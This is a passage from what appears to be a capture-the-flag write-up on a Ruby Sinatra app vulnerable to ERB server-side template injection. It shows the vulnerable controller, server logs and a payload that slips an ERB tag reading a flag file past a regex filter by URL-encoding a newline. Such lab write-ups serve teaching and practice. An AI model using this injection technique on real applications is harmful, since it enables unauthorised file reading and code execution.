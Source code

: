 We are still getting detected.

```ruby

/app # cat app/controllers/neon.rb 
class NeonControllers < Sinatra::Base

  configure do
    set :views, "app/views"
    set :public_dir, "public"
  end

  get '/' do
    @neon = "Glow With The Flow"
    erb :'index'
  end

  post '/' do
    puts params[:neon]
    if params[:neon] =~ /^[0-9a-z ]+$/i
      @neon = ERB.new(params[:neon]).result(binding)
    else
      @neon = ERB.new(params[:neon]).result(binding)
      #@neon = "Malicious Input Detected"
    end
    erb :'index'
  end

  ```

  I am printing the raw string value of `neon` paramter to see how the input shows up in the backend application.

  ```ruby

  /app # shotgun -o0.0.0.0 -p1337 config.ru
== Shotgun/WEBrick on http://0.0.0.0:1337/
[2022-12-26 07:13:15] INFO  WEBrick 1.6.1
[2022-12-26 07:13:15] INFO  ruby 2.7.5 (2021-11-24) [x86_64-linux-musl]
[2022-12-26 07:13:15] INFO  WEBrick::HTTPServer#start: pid=24 port=1337
"Nehal\\n<%= File.open('/app/flag.txt').read %>"
172.17.0.1 - - [26/Dec/2022:07:13:21 +0000] "POST / HTTP/1.1" 200 559 0.0298

```

We can see that the newline `\n` in our payload is automatically escaped.

One possible way can be to encode the newline (`\n` -> `%0a`) so that when the application decodes it, we get the newline we want.

The payload is updated as:

```
Nehal%0a<%= File.open('/app/flag.txt').read %>
```
